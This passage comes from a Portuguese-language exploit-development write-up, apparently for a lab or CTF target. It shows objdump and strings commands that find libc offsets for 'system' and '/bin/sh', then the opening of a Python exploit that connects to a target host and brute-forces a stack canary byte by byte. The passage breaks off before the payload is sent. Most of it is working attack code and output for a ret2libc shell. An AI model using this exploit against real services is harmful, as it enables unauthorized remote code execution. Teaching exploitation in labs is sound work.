 ```
$ objdump -d -M intel libc/libc6_2.31-0ubuntu9_amd64 | grep system
0000000000055410 <__libc_system@@GLIBC_PRIVATE>:
   55417:       74 07                   je     55420 <__libc_system@@GLIBC_PRIVATE+0x10>
```

O offset da função `system` é `0x55410`, porém, é preciso encontrar o offset de algum comando para ser executado, no caso do desenvolvimento deste *exploit*, o comando ideal é `/bin/sh`, pois ao ser executado, retornara um *reverse shell*. Para encontrar o *offset* do comando, pode-se utilizar o comando `strings`, conforme abaixo:

```
$ strings -a -t x libc/libc6_2.31-0ubuntu9_amd64 | grep "/bin/sh"
 1b75aa /bin/sh
```

O offset de `/bin/sh` é `0x1b75aa`, todos os offsets de Libc encontrados, podem ser transformados em endereços reais em tempo de execução, ao somá-los com o endereço base da Libc que já foi possível calcular.

Com estas informações em mãos, é possível atualizar o script com a ultima parte, que enviará o payload e retornará um *reverse shell* interativo. A versão final do exploit fica como abaixo:

```
$ cat exploit.py 
#!/usr/bin/python3


import socket
from struct import pack,unpack
from telnetlib import Telnet

#definindo alvo e funcoes
target = ("192.168.0.125", 666)
p64 = lambda x: pack("Q",x)
u64 = lambda x: unpack("Q",x)

#funcao que fara o Brute Force
def bruteforce(payload):
        for i in range(256):
                next_byte = 0x01 * i
                next_byte = bytes([next_byte])

                tmp_payload = payload + next_byte

                p.send(tmp_payload)
                p.recv(1024)
                output = p.recv(1024)
                if b"Valeu!" in output:
                        print(f"[+] Byte encontrado: {hex(i)}")
                        return next_byte
                if i == 255:
                        print("[-] Erro ao encontrar o proximo byte!")
                        exit()

#Offset para atingir o Canary
offset = b"A" * 40
#Valor para sobrescrever RBP
rbp = b"B" * 8

#Cria a conexao com o alvo
p = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
p.connect(target)
#Recebe a primeira resposta do alvo
p.recv(1024)

#Inicio do Brute Force do Canary
```